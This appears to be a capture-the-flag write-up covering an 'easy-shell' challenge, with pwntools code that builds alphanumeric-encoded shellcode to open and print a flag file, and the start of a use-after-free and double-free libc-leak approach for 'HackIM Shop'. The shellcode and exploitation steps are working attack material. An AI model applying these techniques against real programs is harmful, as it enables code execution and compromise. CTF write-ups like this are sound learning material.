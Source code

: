 ## easy-shell

The logic is simple, a `RWX` page is allocated from `mmap`, and we can execute
arbitrary codes but contents must be `alphanum`. I used this
[tool](https://github.com/veritas501/basic-amd64-alphanumeric-shellcode-
encoder). However, the only problem is that this generator requires `rax` to
be near the `shellcode` and `rax + padding_len == shellcode address`, but
`rax` is `0` when our `shellcode` is executed. Thus, we can add `push r12; pop
rax` in front of our payload and let `padding_len == 3`, which is the length
of `push r12; pop rax`.

```python  
from pwn import *  
context(arch='amd64')

file_name = "flag".ljust(8, '\x00')

sc = '''  
mov rax,%s  
push rax  
mov rdi,rsp  
mov rax,2  
mov rsi,0  
syscall

mov rdi,rax  
sub rsp,0x20  
mov rsi,rsp  
mov rdx,0x20  
mov rax,0  
syscall

mov rdi,0  
mov rsi,rsp  
mov rdx,0x20  
mov rax,1  
syscall

''' % hex(u64(file_name))  
sc = asm(sc)  
print asm("push r12;pop rax;") + alphanum_encoder(sc, 3)  
```

Actually, by the way, `peasy-shell` can be done in the same way: just add more
`push xxx; pop xxx;` to fill first page, and fill the second page with real
payload being generated, which is `RWX`.

## HackIM Shop

A typical UAF and double free challenge. Firstly leak the address in `got`
table to leak `libc` and find its version in `libc-database`, which is `2.27`,
the same one in `Ubuntu 18.04 LTS`. This can be done by UAF and control the
`pointer` field in the `struct`.

